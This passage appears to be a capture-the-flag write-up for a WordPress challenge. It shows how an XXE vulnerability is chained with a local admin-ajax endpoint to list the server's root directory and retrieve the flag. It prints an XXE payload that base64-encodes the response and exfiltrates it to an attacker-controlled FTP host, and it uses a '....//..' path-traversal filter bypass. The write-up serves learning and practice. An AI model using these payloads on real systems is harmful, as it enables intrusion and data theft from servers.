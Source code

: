 with the code and Wordpress documentation, we can find the API endpoint and test it : 
http://web-vxslkw.inst.malicecyber.com/wp-admin/admin-ajax.php?action=read_system_logs&dir=.

<img src="../Images/15.png" width="900" />

The request give us a HTTP 200 code but we can't list the directory, because we are not the local machine.
To make requests to the API with the local machine and exfiltrate the result to our server, we can use our goood old XXE we found earlier.
We change our local payload :

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/wp-admin/admin-ajax.php?action=read_system_logs&dir=....//..">
<!ENTITY % param "<!ENTITY final SYSTEM 'ftp://My.IP:8889/%file;'>">
```
Note that we bypass the filter to list the files of the root directory. We use this path : `....//..`
We get the exfiltration on our ftp and base64 decode it :
`[".","..",".dockerenv","admin-logs.zip","bin","boot","data.sql","dev","entrypoint.sh","etc","flag-103083938c29ed3d630e","home","lib","lib64","media","mnt","opt","proc","root","run","sbin","srv","startup.sh","sys","tmp","usr","var"]`

We manage to list the root directory and find the flag name ! now we can just use our first XXE payload to exfiltrate it :
DGA{5d15975aabc37d088c6f594d927155d93ae57cdd}
